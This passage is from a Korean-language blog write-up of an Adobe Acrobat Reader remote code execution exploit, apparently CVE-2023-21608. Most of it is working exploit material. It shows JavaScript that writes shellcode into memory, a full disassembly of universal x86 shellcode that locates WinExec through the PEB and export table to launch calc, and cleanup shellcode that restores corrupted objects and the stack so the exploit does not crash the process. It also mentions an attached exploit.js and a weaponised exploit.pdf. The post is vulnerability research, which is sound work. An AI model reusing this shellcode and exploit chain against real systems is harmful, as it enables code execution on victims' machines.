for (var i = 0; i < shellcode.length; i++) AAW(arrBufPtr + 0x400 + i * 4, re(shellcode[i]));
```

삽입된 shellcode를 디스어셈블한 결과는 아래와 같습니다

```nasm
89e0           mov     eax, esp
83e818         sub     eax, 18h
53             push    ebx
52             push    edx
56             push    esi
57             push    edi
50             push    eax
55             push    ebp
90             nop     
31d2           xor     edx, edx
52             push    edx; 0
6863616c63     push    636C6163h; "calc"
54             push    esp
59             pop     ecx
52             push    edx
51             push    ecx
648b7230       mov     esi, dword ptr fs:[edx+30h]; PEB
8b760c         mov     esi, dword ptr [esi+0Ch]; PEB_LDR_DATA
8b760c         mov     esi, dword ptr [esi+0Ch]; InLoadOrderModuleList
ad             lods    dword ptr [esi]; eax <- AcroRd32.exe's _LDR_DATA_TABLE_ENTRY
8b30           mov     esi, dword ptr [eax]; esi <- KERNEL32.dll's _LDR_DATA_TABLE_ENTRY
8b7e18         mov     edi, dword ptr [esi+18h]; edi <- KERNEL32 dll base
8b5f3c         mov     ebx, dword ptr [edi+3Ch]; ebx <- PE Headaer Offset
8b5c1f78       mov     ebx, dword ptr [edi+ebx+78h]; ebx <- Export Table Offset
8b741f20       mov     esi, dword ptr [edi+ebx+20h]; esi <- Name Pointer Table offset
01fe           add     esi, edi; add KERNEL32 base to esi(Name Pointer Table addr)
8b541f24       mov     edx, dword ptr [edi+ebx+24h]; edx <- Ordinal Table Offset
0fb72c17       movzx   ebp, word ptr [edi+edx]; ebp <- Ordinal Number
42             inc     edx
42             inc     edx; move to next
ad             lods    dword ptr [esi]; Function name offset
813c0757696e45 cmp     dword ptr [edi+eax], 456E6957h; compare Function_Name with "WinE"
75f0           jne     20000491; if WinExec Found, no jump
8b741f1c       mov     esi, dword ptr [edi+ebx+1Ch]; esi <- Address Table Offset
01fe           add     esi, edi; esi <- Address Table addr
033cae         add     edi, dword ptr [esi+ebp*4]; edi <- edi(KERNEL32 base) + WinExec Offset
ffd7           call    edi; WinExec("calc", 0)
```

이는 `WinExec("calc", 0)`를 호출하는 Windows x86 대상 Universal Shellcode로 계산기 프로그램을 실행하여 RCE 익스플로잇을 증명합니다.

마지막으로 `WinExec`가 리턴한 다음에는 아래와 같은 shellcode가 실행되어 shellcode에 사용된 레지스터를 복구하고 변조된 `ArrayBuffer`의 length, `f0`의 vtable 주소,  pivot된 스택 등을 복원합니다. 이후 사전에 메모리에 저장해둔 `defaultValue` 함수의 주소로 `jmp`하여 익스플로잇이 성공한 후에도 프로세스에서 크래시가 발생하지 않게 만듭니다.

```nasm
200004b0 58             pop     eax
200004b1 58             pop     eax
200004b2 5d             pop     ebp
200004b3 58             pop     eax
200004b4 8b4860         mov     ecx, dword ptr [eax+60h]
200004b7 8b5064         mov     edx, dword ptr [eax+64h]
200004ba 8911           mov     dword ptr [ecx], edx
200004bc 5f             pop     edi
200004bd 5e             pop     esi
200004be 5a             pop     edx
200004bf 5b             pop     ebx
200004c0 89ec           mov     esp, ebp
200004c2 83ec30         sub     esp, 30h
200004c5 90             nop     
200004c6 90             nop     
200004c7 90             nop     
200004c8 8b7068         mov     esi, dword ptr [eax+68h]
200004cb 90             nop     
200004cc 53             push    ebx
200004cd bb40000020     mov     ebx, 20000040h
200004d2 8b506c         mov     edx, dword ptr [eax+6Ch]
200004d5 c7430ce8ff0000 mov     dword ptr [ebx+0Ch], 0FFE8h
200004dc c74220e8ff0000 mov     dword ptr [edx+20h], 0FFE8h
200004e3 90             nop     
200004e4 895310         mov     dword ptr [ebx+10h], edx
200004e7 8b5070         mov     edx, dword ptr [eax+70h]
200004ea 8913           mov     dword ptr [ebx], edx
200004ec 8b5074         mov     edx, dword ptr [eax+74h]
200004ef 895304         mov     dword ptr [ebx+4], edx
200004f2 31d2           xor     edx, edx
200004f4 5b             pop     ebx
200004f5 90             nop     
200004f6 90             nop     
200004f7 90             nop     
200004f8 ffe6           jmp     esi
```

ROP 페이로드와 Shellcode의 실행은 아래의 코드를 통해 `f0`의 Fake vtable의 `defaultValue`함수에 해당하는 `sub_20EFAA60`를 실행하는 것으로 이루어집니다. 또한 크래시 등 의도치 않은 동작을 방지하기 위해 변조한 `targetStr`과 `targetDV`를 원래의 주소로 복원합니다.

```jsx
corruptedTypedArr[arrStart + 6] = originalTargetStrAddr;
//corruptedTypedArr[FAKE_DV_START+20] = originalDVBackingStore;
corruptedTypedArr[arrStart + 8] = originalTargetDVAddr;

var x = f0.defaultValue;
```

전체 익스플로잇 코드는 `exploit.js`파일로 보고서와 함께 첨부되어 있으며 `exploit.pdf`에는 해당 JavaScript 코드가 임베드되어 있어 취약한 버전의 Acrobat이나 Acrobat Reader로 열 경우 위 과정을 통해 RCE가 이루어집니다.

드디어!… 익스플로잇이 끝났습니다… 자바스크립트는 정말 쉽지 않네요… 시연 데모까지만 보여드리고 마치도록하죠!

<iframe width="560" height="315" src="https://www.youtube.com/embed/f3RObd6h2qw?si=l7WAeyWgGJ_MuCWp" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

# Fini

자바스크립트와 관련된 취약점은 처음이었는데 정말 쉽지 않네요… 이런 취약점을 마구 찾는 사람들은 대체 뭐하는 사람들일까 싶습니다 ㅋㅋㅋㅋㅋ 참고할만한 좋은 레퍼런스가 있어서 쉽게?… 분석할 수 있었는데 패치 분석 내용은 없어서 직접 분석해보면서 재밌기도 했고요 시간만 있다면 앞으로도 이런 글 많이 써보도록 하겠습니다!

# Reference

- [https://hacksys.io/blogs/adobe-reader-resetform-cagg-rce-cve-2023-21608](https://hacksys.io/blogs/adobe-reader-resetform-cagg-rce-cve-2023-21608)
- [https://github.com/hacksysteam/CVE-2023-21608](https://github.com/hacksysteam/CVE-2023-21608)
